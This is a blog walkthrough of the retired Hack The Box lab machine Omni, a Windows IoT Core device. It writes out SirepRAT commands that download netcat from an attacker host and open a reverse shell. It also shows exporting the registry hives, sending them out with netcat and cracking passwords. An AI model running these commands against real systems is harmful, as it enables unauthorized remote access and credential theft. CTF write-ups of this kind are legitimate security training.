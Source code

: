 ```yaml
---
layout: post  
title: "Omni: Hack The Box Walkthrough"
date: 2021-01-10 22:26:01 +0000
last_modified_at: 2021-01-10 22:26:01 +0000
category: Walkthrough
tags: ["Hack The Box", Omni, retired, Other, Easy]
comments: true
protect: false
image:
  feature: omni-htb-walkthrough.png
---
```


This post documents the complete walkthrough of Omni, a retired vulnerable [VM][1] created by [egre55][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Omni is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.204 --rate=500

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-08-25 06:31:15 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 8080/tcp on 10.10.10.204
Discovered open port 29820/tcp on 10.10.10.204
Discovered open port 29819/tcp on 10.10.10.204
Discovered open port 29817/tcp on 10.10.10.204
Discovered open port 5985/tcp on 10.10.10.204
Discovered open port 135/tcp on 10.10.10.204
```

Interesting list of open ports. Let's do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p135,5985,8080,29817,29819,29820 -A --reason 10.10.10.204 -oN nmap.txt
...
PORT      STATE SERVICE  REASON          VERSION
135/tcp   open  msrpc    syn-ack ttl 127 Microsoft Windows RPC
5985/tcp  open  upnp     syn-ack ttl 127 Microsoft IIS httpd
8080/tcp  open  upnp     syn-ack ttl 127 Microsoft IIS httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown  syn-ack ttl 127
29819/tcp open  arcserve syn-ack ttl 127 ARCserve Discovery
29820/tcp open  unknown  syn-ack ttl 127
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.80%I=7%D=8/25%Time=5F44B97B%P=x86_64-pc-linux-gnu%r(N
SF:ULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"
SF:\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x0
SF:4G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\x
SF:c9}\xc8O\x12");
```

Looks like we have a Windows IoT Core device on hand from the looks of **Windows Device Portal**!

## Foothold

But hold up, what's `29820/tcp`? Google for _"windows iot core 29820"_ led me to SirepRat.

{% include image.html image_alt="df17f592.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/df17f592.png" %}

### SirepRAT - RCE as SYSTEM on Windows IoT Core

Using [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT), I was able to transfer [`nc64.exe`](https://eternallybored.org/misc/netcat/) (renamed to `cute.exe`) to the device, with the intention of running a reverse shell back to me.

```
# python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "powershell.exe" --args "iwr http://10.10.14.25/nc64.exe -outf \\cute.exe" --v
```

Run `nc64.exe` like so.

```
# python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args "/c start \\cute.exe 10.10.14.25 1234 -e cmd.exe" --v
```

And we have shell, as **NT AUTHORITY\SYSTEM** no less!

{% include image.html image_alt="b3f0b7e2.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/b3f0b7e2.png" %}

### Protected by DPAPI

Finding the location of `user.txt` is simple.

{% include image.html image_alt="2666dfbb.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/2666dfbb.png" %}

However, this is not your usual `user.txt`.

{% include image.html image_alt="170af5ee.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/170af5ee.png" %}

The flag is protected by DPAPI, which means I have to get a shell as `app` in order to decrypt it. More on that later...

### Dumping SAMS

Since we have superuser privileges, it's trivial to dump SAMS. Save the hives as files like so.

```
C:\>reg save hklm\sams SAMS
C:\>reg save hklm\system SYSTEM
```

I'll use `nc64.exe` (renamed as `cute.exe`) to transfer the files over to my machine for offline cracking with John the Ripper.

On the remote machine, run the following command.

```
C:\cute.exe 10.10.14.25 8888 < SAMS
```

On your machine, run the following command.

```
# nc -lnvp 8888 > SAMS
```

Do likewise for `SYSTEM`. Once you have SAMS and SYSTEM on your machine, dump the NTHASH with Impacket's `secretsdump.py`.

{% include image.html image_alt="f0671dab.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/f0671dab.png" %}

### John the Ripper

{% include image.html image_alt="6f857951.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/6f857951.png" %}

We have `app`'s password (`mesh5143`).

### Windows Device Portal

Armed with `app`'s password, we can finally explore what's inside Windows Device Portal.

{% include image.html image_alt="9415c064.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/9415c064.png" %}

Turns out we can run commands as `app`, which means we'll be getting a shell as `app`!

{% include image.html image_alt="ead24376.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/ead24376.png" %}

And here we go...

{% include image.html image_alt="0ce314e3.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/0ce314e3.png" %}

### Decrypting `user.txt`

I got all the information about decrypting PSCredential objects from [here](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx). The key to displaying the encrypted strings is the `Import-CliXml` cmdlet. Here's how.

{% include image.html image_alt="e5bffa08.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/e5bffa08.png" %}

That's it. It is this simple.

## Privilege Escalation

While we are it, here's the `administrator`'s password, protected by DPAPI.

{% include image.html image_alt="8d65bc42.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/8d65bc42.png" %}

Of course it has something to do with Internet of Things. :laughing:

### Getting `root.txt`

Getting a shell as `administrator` is similar. Run a command from Windows Device Portal. With the `administrator` shell, we can decrypt `root.txt` like so.

{% include image.html image_alt="88565263.png" image_src="/34592214-9c25-4f67-ac03-6e1cd8f752b8/88565263.png" %}

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/271
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/
